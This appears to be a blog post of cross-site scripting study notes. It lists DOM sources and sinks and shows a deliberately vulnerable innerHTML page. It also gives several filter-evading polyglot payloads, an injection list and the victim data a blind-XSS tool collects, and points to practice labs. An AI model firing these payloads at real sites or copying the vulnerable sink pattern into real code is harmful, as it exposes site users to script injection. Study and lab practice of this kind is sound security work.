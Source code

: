 ```yaml
---
layout:     post
title:      XSS 
subtitle:   
date:       2020-01-09
author:     D
header-img: 
catalog: true
mermaid: true
tags:
    - XSS
---
```


## XSS
Crose-site Scripting(XSS).
[XSS Introduce](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
#### Reflective XSS
#### Stored XSS
example1:
[Myspace Worm - Stored XSS](https://samy.pl/popular/tech.html)

example2:
[Tweetdeck Worm - Stored XSS](https://threatpost.com/tweetdeck-taken-down-in-wake-of-xss-attacks/106597)

#### DOM XSS
##### DOM XSS - What to Look For?

|Sources|Sinks|
|-|-|
|document.url|element.innerHTML()|
|document.referrer|element.outerHTML()|
|location|eval()|
|location.href|setTimeout()|
|location.search|setInterval()|
|location.hash|document.write()|
|location.pathname|document.writeIn()|

##### DOM XSS -What does it look like?

```
<!DOCTYPE html>
<html>
	<body>
		<script>
			var source = "Hello " + decodeURIComponent(location.hash.split("#")[1]); //Source
			var divElement = document.createElement("div");
			divElement.innerHTML = source; //Sink
			document.body.appendChild(divElement);
		</script>
	</body>
</html>
```

```
GET www.vulnerable-website.example#<img src="test" onerror="alert('XSS')">
```

##### XSS Polyglot #1(RSnake)
```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,
83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromChar
Code(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(
88,83,83))</SCRIPT>
```
Multi-context, filter bypass based polyglot payload #1 (OWASP [XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet))

##### XSS Polyglot #2 (0xsobky)
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert()
)//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/
--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
<https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot>

##### XSS Polyglot #3 (Ashar Javed)
```
'">><marquee><img src=x
onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouse
over=prompt(1)><script>prompt(1)</script>@gmail.com<isindex
formaction=javascript:alert(/XSS/)
type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&
lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img
src="http://i.imgur.com/P8mL8.jpg">
```
Multi-context, filter bypass based polyglot payload #2 (Ashar Javed [XSS Research](http://slides.com/mscasharjaved/cross-site-scripting-my-love#/))

#### Blind XSS


#### Flash-based XSS
#### Self XSS

## Best Practices
- start slow
- Don't get discouraged!
- Keep a list of common payloads
- Use Burp Intruder

**Injections list**
```
"
">
"><>
"><script>
"></script>
"><script>alert(1)</script>
"><script>confirm(1)</script>
...
```

## Tools
##### Tooling
* Blind 
    * XSSTrike
    * XSS Hunter
    * Sleepy Puppy
    * KnoXSS


[XSSTrike](https://github.com/s0md3v/XSStrike)

##### XSSHunter (Blind)
Payload:
* The vulnerable page's URI
* Origin of Execution
* The Victim's IP Address
* The Page Referer
* The Victim's User Agent
* All Non-HTTP-Only Cookies
* The Page's Full HTML DOM
* Full Screenshot of the Affected Page
* Responsible HTTP Request(If an XSS Hunter compatible tool is used)

## Labs

[bWapp](http://www.itsecgames.com/)

bWapp Section - A3 - Cross-Site Scripting (XSS)

```javascript
Cross-Site Scripting - Reflected (GET)
Cross-Site Scripting - Reflected (POST)
Cross-Site Scripting - Reflected (JSON)
Cross-Site Scripting - Reflected (AJAX/JSON)
Cross-Site Scripting - Reflected (AJAX/XML)
Cross-Site Scripting - Reflected (Back Button)
Cross-Site Scripting - Reflected (Custom Header)
Cross-Site Scripting - Reflected (Eval)
Cross-Site Scripting - Reflected (HREF)
Cross-Site Scripting - Reflected (Login Form)
Cross-Site Scripting - Reflected (phpMyAdmin)
Cross-Site Scripting - Reflected (PHP_SELF)
Cross-Site Scripting - Reflected (Referer)
Cross-Site Scripting - Reflected (User-Agent)
Cross-Site Scripting - Stored (Blog)
Cross-Site Scripting - Stored (Change Secret)
Cross-Site Scripting - Stored (Cookies)
Cross-Site Scripting - Stored (SQLiteManager)
Cross-Site Scripting - Stored (User-Agent)
```

Additional Labs
[PentesterLab](https://pentesterlab.com/exercises?dir=desc&only=free&sort=published_at)
Pentesterlab
* XSS and MYSQL FILE
* Web for Pentester
* Web for Pentester II
